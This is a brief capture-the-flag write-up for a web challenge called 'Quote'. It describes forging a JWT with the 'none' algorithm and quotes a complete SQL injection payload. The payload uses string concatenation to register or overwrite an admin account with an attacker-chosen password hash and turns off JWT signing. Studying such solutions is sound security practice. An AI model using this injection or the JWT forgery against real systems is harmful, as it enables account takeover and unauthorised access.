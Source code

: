 ## Web - Quote
Solution 1: just registering a normal account then using jwt none algorithm 

Solution 2: from random player 
quote -> INSERT INTO User (username, password_hash, jwt_algorithm) VALUES ("ad"||"min", '$2b$12$9ZdLvg6oTpp.ekSXsBZMdeh2Ffg6genKCDN4QU4msDbrCgSdGVMeK', 'HS256') ON CONFLICT(username) DO UPDATE SET password_hash = '$2b$12$9ZdLvg6oTpp.ekSXsBZMdeh2Ffg6genKCDN4QU4msDbrCgSdGVMeK',    jwt_algorithm = 'none' -- -;

for summarize, they used concatenation to register a admin account with the password they control.

